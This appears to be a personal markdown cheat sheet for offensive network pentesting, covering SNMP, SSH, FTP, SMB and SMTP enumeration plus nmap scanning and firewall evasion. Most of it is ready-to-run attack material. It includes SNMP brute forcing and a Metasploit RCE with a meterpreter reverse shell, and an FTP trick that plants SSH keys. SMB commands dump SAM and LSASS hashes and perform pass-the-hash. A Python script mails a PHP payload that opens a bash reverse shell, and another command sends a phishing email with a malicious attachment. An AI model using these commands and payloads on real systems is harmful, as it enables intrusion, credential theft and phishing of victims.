




# Network Scanning

# **`Port Enumeration &Scanning`**

### **Full connection model**



# **`UDP`**

## `137` Name Services
`138` Datagram services
`139` session management

## Net-BIOS 
Network Basic Input Output System - RPC Sessions

### **Manual RPC**

`rpcclient -U "" -N ip`
Session commands
**List users/group**: `enumdomusers/groups`
**Get user/group details**: `queryuser/group <0xrid>`

**List domains**: `enumdomains`
**Domain info**: `querydominfo`

### **Automative**

`nbtscan -vr ip // ip1-ip2 // ip.0.0./16`

Target WinOS
`impacket-samrdump -port 139/445 ip
impacket-rpcdump -port 139/445 ip`

## `53`

## DNS
Domain Name system

## `161`  `162` `1061` `1062`

## SNMP
Simple Network/Host management protocol

### GET A  Look

IN Router :  Show You A full Mapping Of Network 
Every single End point :switch,host,firewall Of network & Packets flow

IN Host  :  Show You A full Mapping Every single Action  in  the                                                                 host: Open Ports , Processes[Running exes], Installed Software,Accounts

  

### How is it work

- [ ]  It’s based on A Manager- Agent Manager has information
- [ ]  Has  Database Called MIB stands for management Information Database
- [ ]  MIB (Database) Contains some digits called OID which translated to the information 
OID EX: iso.3.6.1.2.1.1.9.1.4.5
- [ ]  v1 is different than 2 ,2c,and 3 [in  authentication method and Data transfer encryption]
- V1-2-2c Uses Community strings to 
     Authenticate (By use it as password) 
    Authorize (By specify different previlegs for Every  password)
- V3 Uses User and password and Passphrase to Authenticate  Authorize

---

### Used For

- [ ]  management
- [ ]  monitoring
- [ ]  Blueteaming Detect Threats
- [ ]  Administration

  

### **Common Default Credentials in V1/2/2c**

Read-Only Permission : `public`

Read-Write Permission: `private`

### **v1-2-2c Authentication BruteForce Attack**

`onesixtyone -c dict.txt -w 100 -i host.txt`  

`onesixtyone -c dict.txt -w 100 IP.100.120.44`

**Recommendation**

https://github.com/SECFORCE/SNMP-Brute

`python snmp_brute.py -t 91.216.192.182 -p 161 --cisco|linux|windows -f test.txt`

### **v3 Authentication BruteForce Attac**
‣

```bash
**Installation** 
git clone [https://github.com/hatlord/snmpwn.git](https://github.com/hatlord/snmpwn.git)
cd snmpwn
gem install bundler
bundle install
./snmpwn.rb
```

`./snmpwn.rb --hosts hosts.txt --users users.txt --passlist passwords.txt --enclist passwords.txt`

### **Change Values in Machine by SET an OID Value**

- check your permissiun
    
    `snmp-check 91.216.192.182 -w -c private -p 161`
    
- check writable OID with python
    
    ```python
    #!/usr/bin/env python3
    
    import sys
    import re
    
    import shlex
    import subprocess
    from subprocess import PIPE
    
    #Debug flag
    debug = False
    
    #Display help 
    if len(sys.argv)==1 or sys.argv[1].lower()=="-h" or sys.argv[1].lower()=="--help":
        usage={}
        usage["desc"] = """Returns the number of writable OIDs and list them.
    Parses the output of 'snmpwalk' and determines all elements that are readable. The return code of 'snmpset' is used to determine if an element's value can be written, by performing a write with the exact actual value.
    """
        usage["cmd"] = f"Syntax:\t{sys.argv[0]} [OPTIONS] AGENT [PARAMETERS] #see man snmpcmd"
        usage["example"] = f"Example: {sys.argv[0]} -v 2c -c public 192.168.0.3"
        usage["disclaimer"] = """
    DISCLAIMAR: The script might change the value of the writable or cause other effects. Use with care.
    """ 
        print("\n".join(usage.values()))
        sys.exit(0)
    
    #Simply the command line options to snmpwalk and snmpset
    options_agent = ' '.join(sys.argv[1:])
    
    cmd = f"snmpwalk {options_agent}"
    args = shlex.split(cmd)
    proc = subprocess.Popen(args, stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    out = proc.stdout.read().decode()
    
    if(debug):
        print(f"{cmd}\n{out}\n\n")
    
    #map between snmpwalk output and expected type by snmpset
    type_map = {"INTEGER":'i', "unsigned INTEGER":'u', "UNSIGNED":'u', "TIMETICKS":'t', "Timeticks":'t', "IPADDRESS":'a', "OBJID":'o', "OID":'o',  "STRING":'s', "HEX STRING":'x', "Hex-STRING":'x', "DECIMAL STRING":'d', "BITS":'b', "unsigned int64":'U', "signed int64":'I', "float":'F', "double":'D', "NULLOBJ":'n'}
    
    #count how many OIDs are writable
    count=0
    
    #Iterate and parse each OID
    for line in out.splitlines():
        try:
            oid = line.split(" = ")[0]
            type_value = line.split(" = ")[1]
            type_ = type_map[ type_value.split(": ")[0] ] #ex: STRING: "abc"
            value = type_value.split(": ")[1]
    
            #for TIMETICKS extract only the numeric value
            if type_ == 't':
                match = re.search('\((.+?)\)', value)
                if match:
                    value = match.group(1)
                else:
                    continue
            #for HEX STRING put the value in quotes
            if type_ == 'x':
                value = f'"{value}"'
    
            #Try to write the existing value once again        
            cmd = f"snmpset {options_agent} {oid} {type_} {value}"
            args = shlex.split(cmd)
            if(debug):
                print(cmd)
                retcode = subprocess.call(args)
            else:
                retcode = subprocess.call(args, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
                
            if retcode == 0:
                cmd_get = f"snmpget {options_agent} {oid}"
                args_get = shlex.split(cmd_get)
                oidtype = subprocess.run(args_get, stdout=subprocess.PIPE).stdout.decode('utf-8')
                m = re.search('=', oidtype)
                oidtype_s = oidtype[m.end():]
                print(f"{oid} is writable - "f"{oidtype_s}")
                count+=1
        except:
            pass
    
    #return code is the number of found OIDs
    sys.exit(count)
    #by xorguy
    ```
    
    - **Usage**
    
    `python3 script.py -v 1|2c 192.168.0.3 -c public IP.100.123.1`
    
- Writing Process
    - **translate OID**
    
    `snmptranslate -On iso.3.6.1.2.1.1.4.0e`
    
    - **revalue OID**
    
    **braa👙**
    
    `braa👙 community@IP.151.20.3:port:.1.3.6.oid.9.1.4.5=newvalue`
    
    **metasploit**
    
    ```bash
    msf6>use scanner/snmp/snmp_set
    msf6 auxiliary(scanner/snmp/snmp_set) > show options 
    
    Module options (auxiliary/scanner/snmp/snmp_set):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMUNITY  public           yes       SNMP Community String
       OID                         yes       The object identifier (numeric notation)
       OIDVALUE                    yes       The value to set
       RETRIES    1                yes       SNMP Retries
       RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
       RPORT      161              yes       The target port (UDP)
       THREADS    1                yes       The number of concurrent threads (max one per host)
       TIMEOUT    1                yes       SNMP Timeout
       VERSION    1                yes       SNMP Version <1/2c>
    msf6 auxiliary(scanner/snmp/snmp_set) > set RHOSTS IP 
    msf6 auxiliary(scanner/snmp/snmp_set) > set VERSION 1 OR 2c 
    msf6 auxiliary(scanner/snmp/snmp_set) > set COMMUNITY privateasexampel 
    msf6 auxiliary(scanner/snmp/snmp_set) > set OID .1.3.ta.rg.et.oi.d.9.4.5
    msf6 auxiliary(scanner/snmp/snmp_set) > set OIDVALUE HACKED
    ```
    

### **Enumeration**

FOR Unkown Version`snmp-check 91.216.192.182 -c public -p 161`

FOR Triageing OIDs `snmpwalk 91.216.192.182 -c public -v 1|2c`

FOR Cool Output       `metasploit`

```bash
msf6 > use auxiliary/scanner/snmp/snmp_enum
msf6 auxiliary(scanner/snmp/snmp_enum) > show options

Module options (auxiliary/scanner/snmp/snmp_enum):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMUNITY  public           yes       SNMP Community String
   RETRIES    1                yes       SNMP Retries
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      161              yes       The target port (UDP)
   THREADS    1                yes       The number of concurrent threads (max one per host)
   TIMEOUT    1                yes       SNMP Timeout
   VERSION    1                yes       SNMP Version <1/2c>

msf6 auxiliary(scanner/snmp/snmp_enum) > set RHOSTS 192.2.1.182
msf6 auxiliary(scanner/snmp/snmp_enum) > run
```

**Recommendation For Best Output Format** 

https://github.com/SECFORCE/SNMP-Brute

`python snmp_brute.py -t 91.216.192.182 -p 161 --cisco|linux|windows -f test.txt`

### **RCE linux with Extend Net-SNMP (Net-SNMP-Extend-MIB)**

https://github.com/mxrch/snmp-shell

```bash
**Installation** 
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

`python3 shell.py IP.12.123.10 -c privateasexaple -v 1|2c` 

```bash
Simulates a terminal over Net-SNMP "extend" functionality. Be sure your
SNMP Community String has write access.
-ss, --snmpset TEXT         Path for the snmpset binary
-sw, --snmpwalk TEXT        Path for the snmpwalk binary

```

**`metasploit`**

```bash
msf6>use scanner/snmp/snmp_set
msf6 exploit(linux/snmp/net_snmpd_rw_access) > show options 

Module options (exploit/linux/snmp/net_snmpd_rw_access):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CHUNKSIZE  200              yes       Maximum bytes of payload to write at once
   COMMUNITY  public           yes       SNMP Community String
   FILEPATH   /tmp             yes       file path to write to
   RETRIES    1                yes       SNMP Retries
   RHOSTS     91.216.192.182   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      161              yes       The target port (TCP)
   SHELL      /bin/bash        yes       Shell to call with -c argument
   SRVHOST                     yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.4      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Linux x86
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set SRVHOST [allow one ip (attacker ip) To Connect To Keep calm,clean and safe (Redteaming)]
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set SSL [Ecnrypt Your Connection To Evade some Network Attack Detaction methods & Forensics]
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set LHOST  192.168.1.4 [attacker IP will developed in shellcode]
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set COMMUNITY  private          
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set  RHOSTS     191.26.12.102
msf6 exploit(linux/snmp/net_snmpd_rw_access) > VERSION    1/2
msf6 exploit(linux/snmp/net_snmpd_rw_access) >run
```

# **`TCP`**

## `22`

## SSH  (Secure Shell)

### **Manual :**

`ssh user:pass@IP`

### **Brute force**

**Tools**:

**TCHhydra**

**msfconsole**

**Cobaltstrike**

**msdussa**

**hydra** `hydra -L user.txt -P passwrd.txt ssh://ip -s 21`  

### **Key-Gen**

`ssh-keygen -t rsa`

`Enter passphrase (empty for no passphrase):`

`cat id_rsa.pub >> authorized_keys`

`chmod authorized_keys 600`

Generated Key To connect **id_rsa**

### **Key-Connect**

`chmod id_rsa 400`

`ssh -i id_rsa user@IP.pub`

`Enter passphrase (empty for no passphrase):`

### **Key Crack**

**JTR**`JohnTheRipper`

`ssh2john   id_rsa > passphrasehash.txt`

`react as normal hash`

## `21`

## FTP  (File Transferee Protocol )

### **Manual :**

`ftp user@IP`

### **Bruteforce**

**Tools**:

TCHhydra

msfconsole

Cobaltstrike

msdussa

hydra `hydra -L user.txt -P passwrd.txt ftp://ip -s 22`  

### **missconfigration  :[**`anonymous`login**]**

`ftp anonymous:anonymous@IP`

### **FTP Commands**

upload `put file`

browse files ls `-lah`   `dir`

download `get file`

### **RCE [Reverse SSH Log-In]**

```bash
ftp>mkdir .ssh
ftp>cd .ssh
ftp>put id_rsa.pub #Is Generated From your machine
ftp>rename id_rsa.pub authorized_keys
ssh user@VectimIP
```

## `139 session management`

## Net-BIOS 
Network Basic Input Output System - RPC Sessions

### **Manual :**

- **Login**
    
    `rpcclient -U "" -N ip`
    
- **Session commands:**
List users/group: `enumdomusers/groups`
Get user/group details: `queryuser/group <0xrid>`
    
    List domains: `enumdomains`
    Domain info: `querydominfo`
    

### **Tools:**

`nbtscan -vr ip // ip1-ip2 // ip.0.0./16`

Target WinOS
`impacket-samrdump -port 139/445 ip`     `impacket-rpcdump -port 139/445 ip`

## `445`

## SMB
Server Message Blocking

`NetBios  [139] Must Run With SMB Old Versions [445] But SMB Could Run Without Netbios` 

### **Manual**

`smbclient --no-pass -L ip` 

### **automation:**

`crackmapexec smb ip`
Bruteforce + System info

```xml
**Credentials [Brute Force]**
-u user OR user.txt
-p'pass'OR pass.txt
**Enumuration**
--sam #Dump SAM
--lsa #Dump LSASS in memmory hashes
--sessions #Get sessions (
--loggedon-users #Get logged-on users
--disks #Enumerate the disks
--users #Enumerate users
--groups # Enumerate groups
--local-groups # Enumerate local groups
--pass-pol #Get password policy
--rid-brute #RID brute
```

`smbmap` File Mapping + PassTheHash Attack

```xml
**Tasrget**
-H target ip
-P target port (445)
**Credentials[Login With Hash PasstheHash]**
-u user with 
-p password/NTLM
**Files Options**
--download PATH       Download a file from the remote system, ex.'C$\temp\passwords.txt'
--upload SRC DST      Upload a file to the remote system ex. '/tmp/payload.exe C$\temp\payload.exe'
--delete PATH TO FILE Delete a remote file, ex. 'C$\temp\msf.exe'

-x execute commands
-R list every shared file in any directory
-v host system version only
**Examples:**
$ smbmap -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -H 172.16.0.20
$ smbmap -u 'apadmin' -p 'asdf1234!' -d ACME -h 10.1.3.30 -x 'net group "Domain Admins" /domain'
```

`enum4linux enum ip -a` System info

```
**Enumeration**
-a        Do all simple enumeration (-U -S -G -P -r -o -n -i).
-d        be detailed, applies to -U and -S
**Credential Brute Force**
-u user   specify username to use (default "")
-p pass   specify password to use (default "")
-l        Get some (limited) info via LDAP 389/TCP (for DCs only)
**INFORMATION Brute Force**
-s file   brute force guessing for share names
-k user   User(s) that exists on remote system
         (default: administrator,guest,krbtgt,domain admins,root,bin,none)
          Used to get sid with "lookupsid known_username"
          Get it from rpc "enumdom users"
          Use commas to try several users: "-k admin,user1,user2"
```

### **RCE**

`crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X 'PowerShell Command'` 

`crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x 'Cmd Command'` 

Target WinOS           `impacket-smbexec domain/username:password@ip`

upload files 

Get SAM File

### **Another Tools**

[`nullinux`](https://miloserdov.org/?p=4066#14)

[`SMB Spider`](https://miloserdov.org/?p=4066#15)

[`acccheck`](https://miloserdov.org/?p=4066#16)

[`CredNinja`](https://miloserdov.org/?p=4066#17)

[`SPARTA`](https://miloserdov.org/?p=4066#19)

### **Defult Credentials**

user:user
root:toor
Nullsession

admin:admin

## `25`

## SMTP (Simple Mail Transferee Protocol)

### **User Name Enumeration**

- Manual:
    - `nc IP 25` OR `telnet IP 25` [25 stands for port which is run smtp on it ]
        - `VRFY admin`      
        `550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table`
        user ‘admin’ is not found
        - `VRFY root`
            
            `252 2.0.0 root`      user ‘root ’ is found 
            
- Automative:
    - `smtp-user-enum -M VRFY -U users.txt -t ip  -p 25`
    - `smtp-user-enum -M VRFY -U users.txt -T ip.txt  -p 25`

### **Open Relay**

Attack Make You can send Any mail from any  user on smtp server of target to any one

Social Engneering Tip if you found it :
Try To send E-mail From Admin@localdomain in this emai You can put malicious File and send it To Some User To Control its machine

**Validation**

```ruby
msf6 > use scanner/smtp/smtp_relay
msf6 auxiliary(scanner/smtp/smtp_relay) > show options

Module options (auxiliary/scanner/smtp/smtp_relay):

   Name      Current Setting     Required  Description
   ----      ---------------     --------  -----------
   EXTENDED  false               yes       Do all the 16 extended checks
   MAILFROM  sender@example.com  yes       FROM address of the e-mail
   MAILTO    target@example.com  yes       TO address of the e-mail
   RHOSTS                        yes       The target host(s) IP 
   RPORT     25                  yes       The  port of SMTP Service On target
   THREADS   1                   yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smtp/smtp_relay) > set rhost 123.123.123.123
msf6 auxiliary(scanner/smtp/smtp_relay) >run

```

### **Exploitation**

- Manual
****
    
    use tool in Kali called sendEMail 
    `sendEmail -t Michelhrteam@company.com -m FinancialUpdate -s ip:25 -a /root/kali/maliciouswordfile -m Hello sir , Please Kindly Check this Link https://[malciciouslink.com](http://malciciouslink.com) After Beafore Reading This file`
    
    ```
        -t  to email address(es)
        -u  message subject
        -m  message body
        -s SERVER[:PORT]          smtp mail relay, default is localhost:25
        -a   FILE [FILE ...]      file attach to email
        -cc  ADDRESS [ADDR ...]   cc  email address(es)
        #[Auth For Use Email 'Out Of Our Scope']
        -xu  USERNAME             username for SMTP authentication
        -xp  PASSWORD             password for SMTP authentication
    
    ```
    
- Script
    
    ```python
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    import smtplib
    import sys
    
    lhost = "127.0.0.1"
    lport = 443
    rhost = "192.168.1.1"
    rport = 25 # 489,587
    
    # create message object instance
    msg = MIMEMultipart()
    
    # setup the parameters of the message
    password = "" 
    msg['From'] = "attacker@local"
    msg['To'] = "victim@local"
    msg['Subject'] = "This is not a drill!"
    
    # payload 
    message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))
    
    print("[*] Payload is generated : %s" % message)
    
    msg.attach(MIMEText(message, 'plain'))
    server = smtplib.SMTP(host=rhost,port=rport)
    
    if server.noop()[0] != 250:
        print("[-]Connection Error")
        exit()
    
    server.starttls()
    
    # Uncomment if log-in with authencation
    # server.login(msg['From'], password)
    
    server.sendmail(msg['From'], msg['To'], msg.as_string())
    server.quit()
    
    print("[***]successfully sent email to %s:" % (msg['To']))
    
    ```
    

# **`Scanning`**

- **Target**  : scanme.nmap.org
    
    ### `nmapscanme.nmap.org`
    

## **Port Scan Techniques**

**`-sn`  Disable port scan**

- **Number**
    - **`-p22`**    one port
    - **`-p53,111,137`** some ports
    - **`-p-`**    all  ports
    - **`-p1-635`** range
- TCP
    
    ### **Full TCP connection model**
    
    
    
    - **`-sT`** connect  scan  (Complete model) any firewall records 3-way handshake connection
    - **`-sS`** Stealth scan (stops with first reply from server SYN/ACK or RST) some firewall  didn’t record uncomplete connection
    - **`-sA`** send first tcp packet  with Ack flag Simulated that The Device Send ME SYN and Now this my reply  (Like Reverse Shell Concept) Usually This technique called ack Probing  ,used Firewall Enumeration  and get RST Packet as Response If Port OPEN OR Closed ; Which mean You Use it Just to  Test For Firewall Restrictions in the Port Filtered or Unfiltered
    - **`-sX`** send first tcp packet with multiply flags for opposite things
    conflicting flags, often leading to undefined behavior from the target which may bypass firewalls that don’t handle flags are unusual flags properly,
    - **`-sF`**  send first tcp packet with Fin flag bypass firewalls  which do not expect standalone FIN packets.
    - **`-sN`**  send first tcp packet without any falg
    - (without server response to be recorded in Firewall logs)
    - Didn’t reply = Port is open but didnt know what is action to do
    reply RST     = Port Closed
    - **`--scanflags` A**llows you to manually set the TCP flags in the packet, giving you control over what kind of packet you send (SYN, ACK, FIN, URG, etc.). to confuse firewalls or bypass certain rules by crafting packets that don't match any known scan signature.
    (SYN,ACK) flags set, mimicking a legitimate connection. Useful to evade basic firewalls.
    - **`--sM`** sends a TCP packet with both **FIN and ACK** flags. The Maimon scan is named after Uriel Maimon, who discovered that some systems do not respond to these types of packets correctly, it may bypass firewalls that filter based on expected connection types  If no response is received, the port is open, a RST means the port is closed.
    - **`--sW`** This scan is based on the TCP window size returned in RST packets. Some operating systems respond differently depending on whether the port is open or closed firewalls may not specifically block this type of scan Since this scan relies on an indirect method (the TCP window size) .
    - **`sN` S**ends a TCP packet with **no flags** set. Bypass Legacy Firewalls which do not handle packets with no flags.
    
    ### **Accuracy and Performance Impact of TCP Flags**
    
    - **Accuracy:**
        - Different TCP flags affect accuracy because they exploit different behaviors in the target system. For example, `sS` and `sT` are more accurate as they directly probe for open/closed ports, while scans like `sF`, `sX`, and `sN` rely on how the target handles uncommon or incomplete packets.
        - More exotic scans (e.g., `sX`, `sN`, `sM`) may be less accurate, particularly on modern systems where the operating system handles abnormal TCP flags properly.
    - **Performance:**
        - `sT` and `sS` are generally faster since they rely on receiving immediate SYN/ACK or RST replies, which lead to quicker results.
        - Some flag combinations (like in `sF`, `sX`, `sN`) may take longer because they rely on the target **not** responding, meaning the scan waits for a timeout before concluding that a port is open.
        - Custom scans using `-scanflags` or `sW` may take longer to process because they involve analyzing specific behaviors (like window sizes), and the results depend on more nuanced factors.
    
- UDP
    
    ### **Full UDP connection model**
    
    
    
    **`-sU`** udp ports
    
- SCTP
    
    ### **Full SCTP connection model**
    
    
    
    **`-sY`  SCTP INIT Scan (Normal Connection Start with INIT Chunk)**
    
    **`-sZ`  SCTP COOKIE-ECHO scans (Start with cookie-Echo Chunk)**
    

## **Ping Techniques**

### **Ping connection model**



- **`--sO`** Scan all  **available** IP protocols for Ping/connection
- **`--disable-arp-ping`** (No ARP or ND Ping)
- **`--discovery-ignore-rst`**In some cases You find alot of fake ip(s) is up , firewalls may spoof TCP reset (RST) replies in response to probes to unoccupied or disallowed addresses. Since Nmap ordinarily considers RST replies to be proof that the target is up, This option will fix The problem
- **`-Pn`** skip host discovery and any type of ping and go straight forward to detection port step

- **`-sO`** Scan all  **available** IP protocols for Ping/connection
- **`-Pn`** Skip host discovery and go straight forward to detection port step 
Usually Firewalls dropping ping traffic which shows host down , pause scanning
- **`-PA`** Sends TCP ACK packets to detect if the host is alive. This can be useful when ICMP (ping) is blocked by a firewall, but TCP packets allowed
- **`-PS`**  Sends TCP SYN packets to specific ports. Like a normal SYN scan, but it is used for host discovery. Firewalls see that as expected traffic,  Useful when firewalls are configured to allow TCP connections, making it appear as if regular traffic is being initiated
- **`-PO`**  Sends raw IP packets without a transport layer protocol (TCP/UDP). If a firewall blocks TCP/UDP but allows ICMP or other protocols, evade firewalls when only block common protocols like TCP/UDP, but leave others open.
- **`-PU`**  Sends UDP packets to a specific port to discover if the host is alive. Firewalls might block this, **firewall**s block UDP unless it's explicitly allowed.
- **`-PY`**  Sends SCTP INIT packets. SCTP is a lesser-known transport protocol (used in some telecom environments). Some firewalls may not filter these packets Useful when firewalls do not inspect or block SCTP traffic.
- `-**PM**`Sends ICMP address mask requests. If a firewall blocks standard ICMP echo requests but allows less common ICMP types, this can bypass filters Firewalls often block ICMP in general, and address mask requests may not be supported or used anymore.
- **`-PE`** Standard ICMP ping request. It’s the default method used to determine if a host is online Most firewalls block or rate-limit ICMP echo requests, Timestamp Requests because.
- **`-PP` (ICMP Timestamp Ping)** is an alternative to standard pings, useful for bypassing firewalls that block ICMP Echo Requests but allow other ICMP messages.

## **Speed Control**

 **`-F`** Fast Port Scan

**`-T`** <0-5>: Set timing template (slower to faster)

**`--scan-delay n`**  Adjust delay between probes
**`--min-rate n`** Send  number as minimum speed  p/s [Fastest]:udp
**`--max-rate n`** Send  n as maximum speed  p/s [slowest]:firewall

## **Banner Grabbing [Detailed  information port  scan]**

**`-sV`** Probe open ports to determine service/version info
**`--version-intensity n` n** <level>: Set from 0 (light) to 9 (try all probes)
**`--version-al`** Try every single probe (intensity 9)

## **OS Discovery and Enumeration**

**`-O`**  Enable OS detection
**`--osscan-limit`**  Limit OS detection to promising targets
**`--osscan-guess`**  Guess OS more aggressively

## **Script Scan & Vulnerability scan**

**`--script=vuln`**

**`-sC`**

**`--scipt=*openportname-banne***,***openportname-banner***,*vuln*,vuln,apache,web,http,mysql,ftp,rdp`

Web Tricks:**`--scipt=***vuln*,vuln,*apache*,*web*,*http*`

Example: `--script=vuln,*vuln*,*mysql*,*ftp*,*rdp*`

## **DNS Customization**

**`-n`** No DNS resolution

**`--resolve-all` Resolve**  DNS For all scanned targets
**`--system-dns`**Use Your system DNS resolver
**`--dns-servers IP`** Used for Internal Network scan (Active Directory) IP of local DNS Server 

**`-e <iface>:`** Use specified interface

# **Firewalls Evasion**

### Debugging & Enumeration

**`--reason`**  show Network reason  for  every result 

**`--packet-trace`** Show all packets sent and received

### **Packet Signature**

- **`--data <hex string>:`** Append a custom payload to sent packets
- **`--data-string <string>:`** Append a custom ASCII string to sent packets
- **`--data-length <num>:`** Append random data to sent packets
- **`--badsum:`**  Send packets with a bogus TCP/UDP/SCTP checksum
- **`-f  --mtu <val>`**  fragment packets (optionally w/given MTU)
- **`--ip-options <options>`** Send packets with specified ip options which change packet structure
- **`--ttl <val>`**: Set IP time-to-live field

### Spoof Source

- **IP**
    - **`-sI 123.12.1.0`**  make an Endpoint as  your scanner in network (Must be Local Network)
    - **`-b username:password@server:port`**  use ftp server vulnerable to an old bug for send scanning packets for the network instead of your machine to evade IDS  Because i is usually connected to any host directly
    - **`-S <IP_Address>`** Spoof IP address in Packets
    - **`--proxies <url1,[url2],...>`**: Relay connections through HTTP/SOCKS4 proxies
    - **`-D RND:N**`  n=number of random addrs of source hosts for  scan 
    **`-D decoy1,decoy2,ME`** : Cloak a scan with decoys to make noisy traffic from a lot of Source IPs to the destination that can Bypass Firewall which fail of heavy load or at least Hide you and make Investigation more complex .
    Should Include ME .
- **Port**
    - **`-g/--source-port <portnum>`**: Use specific source port number in Packets
- **MAC**
    - **`--spoof-mac <mac address/prefix/vendor name>:`** Spoof your MAC address

## **Output  Formatting**

`oN target` : Output scan in normal
`-oX traget :` Output scan in XML

`xsltproc target.xml -o output.html` Best Of The Best
`--append-output`: Append to rather than clobber specified output files
`--stylesheet` <path/URL>: XSL stylesheet to transform XML output to HTML

# **`HOST DISCOVERY`**

```r
